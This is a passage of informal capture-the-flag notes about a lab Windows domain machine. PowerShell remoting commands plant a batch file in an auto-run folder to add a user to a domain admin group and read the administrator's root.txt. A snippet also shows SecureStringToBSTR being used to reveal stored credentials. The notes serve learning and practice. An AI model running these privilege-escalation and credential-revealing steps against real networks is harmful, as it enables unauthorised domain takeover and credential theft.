 It is really weird script to run all batch scripts.
![](secondscript.png)

```powershell
# In honour of finishing this to move on and embedded the lessons into my notes and checklists
Invoke-Command -ScriptBlock { Set-Content -Path 'c:\program files\keepmeon\0xdf.bat' -Value 'net group site_admin awallace /add /domain'} -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred

Invoke-Command -ScriptBlock { cat '\program files\keepmeon\0xdf.bat' } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
net group site_admin awallace /add /domain
# Root.txt is readable
Invoke-Command -ScriptBlock { cat c:\users\administrator\desktop\root.txt  } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```

#### Stream intersting 

ccorebytes mentions - https://learn.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.securestringtobstr?view=net-7.0
Although we have limited commands 
```powershell
[System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($securestring)
```
